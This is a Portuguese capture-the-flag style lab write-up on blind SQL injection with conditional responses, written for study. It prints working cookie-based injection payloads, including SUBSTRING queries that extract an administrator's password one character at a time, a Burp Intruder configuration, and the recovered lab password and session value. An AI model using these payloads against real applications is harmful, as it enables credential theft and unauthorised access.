




# Lab: Blind SQL injection with conditional responses

## Enunciado (traduzido)

Este lab contém uma vulnerabilidade de SQL injection cega (Blind SQLi). A aplicação utiliza um cookie de rastreamento (`TrackingId`) para análise de métricas e executa uma consulta SQL contendo o valor do cookie enviado.

Os resultados da consulta SQL não são retornados na tela e nenhuma mensagem de erro do banco é exibida. No entanto, a aplicação inclui uma mensagem `"Welcome back"` na página caso a consulta ao banco retorne alguma linha de resultado.

O banco de dados contém uma tabela chamada `users`, com colunas chamadas `username` e `password`. Você precisa explorar essa vulnerabilidade de Blind SQL injection para descobrir a senha do usuário `administrator`.

Para resolver o lab, faça login como o usuário `administrator`.

*(Dica: A senha contém apenas caracteres alfanuméricos minúsculos).*

## O que fiz

Em um cenário de **Blind SQL Injection (Injeção Cega)**, o banco de dados executa nossos comandos, mas o resultado da query não é impresso diretamente na página e mensagens de erro detalhadas não aparecem. 

Para extrair dados nesse cenário, precisamos encontrar um **canal de inferência (oráculo booleano)**: um comportamento observável na aplicação que muda dependendo se uma condição injetada for **Verdadeira (True)** ou **Falsa (False)**.

A query roda normal no banco, mas o **resultado dela nunca chega até o HTML**. Não tem nenhum lugar na página onde o valor do `password` aparece escrito.

O que existe é um **efeito colateral observável**: o código do backend faz mais ou menos isso:

```
resultado = executar(SELECT * FROM users WHERE trackingId = 'valor_do_cookie')

if resultado tem alguma linha:
    mostra "Welcome back"
else:
    não mostra nada
```

Repara que o `if` só olha se **existe linha ou não** — ele não imprime o conteúdo da linha. Então quando você injeta um comando, você não está pedindo pro banco "me devolve esse caractere". Você tá transformando a pergunta em uma condição que ou dá match ou quebra a condição.

Ou seja: o dado em si (a senha) nunca sai do banco. Só o **efeito binário de ter encontrado ou não uma linha** é que vaza pra fora, através do texto na tela. É por isso que chama "cego": você não vê o dado, só vê o efeito que ele causa na aplicação — e esse efeito (aparece/não aparece) é o oráculo que te deixa fazer perguntas de sim/não até reconstruir a informação, um bit de cada vez.

---

### 1. Identificando o ponto de injeção e o canal de inferência

Ao analisar as requisições no Burp Suite, notamos a presença do cookie `TrackingId`. A aplicação consulta internamente esse ID no banco.

Se a query do cookie encontrar um registro válido, a aplicação renderiza na página o texto **`Welcome back`**. Se a query falhar ou a condição for falsa, o texto não aparece.

Testamos o comportamento manipulando a lógica booleana no cookie:

* **Condição Falsa (False):**
  ```http
  Cookie: TrackingId=sPHagiCsA045PXq5' order by 9999--; session=...
  ```
  A mensagem `Welcome back` **não** é renderizada no HTML.

  

* **Condição Verdadeira (True):**
  ```http
  Cookie: TrackingId=sPHagiCsA045PXq5' order by 1--; session=...
  ```
  A mensagem `Welcome back` **aparece** na resposta da página.

  

Confirmamos a nossa regra:
- **`Welcome back` presente** = Condição Verdadeira (True)
- **`Welcome back` ausente** = Condição Falsa (False)

---

### 2. A lógica para extrair a senha caractere por caractere

Como não podemos simplesmente despejar a tabela inteira na tela via `UNION`, precisamos fazer perguntas de "Sim ou Não" (Verdadeiro ou Falso) para o banco de dados, adivinhando uma letra da senha por vez.

Para isso, usamos a função **`SUBSTRING()`**:
```sql
SUBSTRING(string, posicao_inicial, quantidade_de_caracteres)
```

A consulta injetada fica assim:
```sql
Cookie: TrackingId=sPHagiCsA045PXq5' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a'; session=...
```

* O banco pega a senha do `administrator`.
* A função `SUBSTRING(..., 1, 1)` recorta apenas o **1º caractere**.
* Ele compara: *esse 1º caractere é igual a `'a'`?*
  - Se for `'a'`, a condição é verdadeira e a página exibe `Welcome back`.
  - Se não for `'a'`, a condição é falsa e a página não exibe nada.

---

### 3. Automatizando o processo com o Burp Intruder

Fazer esse teste manualmente para todas as letras e números (a-z, 0-9) demoraria muito. Por isso, enviamos a requisição para o **Burp Intruder**:

1. **Definir a posição do payload:** Marcamos o caractere de teste como variável.
   ```http
   Cookie: TrackingId=sPHagiCsA045PXq5' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = '§a§; session=...
   ```
2. **Payloads:** Configuramos uma lista com caracteres alfanuméricos minúsculos (`a-z`, `0-9`).
3. **Grep - Match:** Nas configurações do Intruder (*Settings/Options*), adicionamos uma regra de Grep Match para o texto `Welcome back`. Isso cria uma coluna na tabela de resultados indicando onde o texto apareceu.

Na primeira posição (`posição 1`), o caractere correspondente retornou a flag do `Welcome back` marcada:



Com a primeira letra descoberta, alteramos a posição na query para o **2º caractere**:

```http
Cookie: TrackingId=sPHagiCsA045PXq5' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 2, 1) = '§a§; session=...
```



Repetimos esse procedimento iterando de posição em posição até reconstruir a senha completa do administrador.

---

### 4. Validação final e Login

Com a senha completa descoberta (`bmvnwwgxadqsvg3ncjq3`), podemos fazer um teste de validação direta confirmando a string inteira de uma vez só:

```http
Cookie: TrackingId=sPHagiCsA045PXq5' AND (SELECT password FROM users WHERE username = 'administrator') = 'bmvnwwgxadqsvg3ncjq3; session=wDebKUKDPKcMdzTld0Aug0XnfSFuU7W1
```

A resposta retornou `Welcome back`, confirmando com 100% de exatidão que a senha extraída está correta.

Por fim, fomos até a página `/login`, inserimos o usuário `administrator` com a senha obtida e o lab foi finalizado com sucesso.

---

[⬅ Voltar](../../README.md)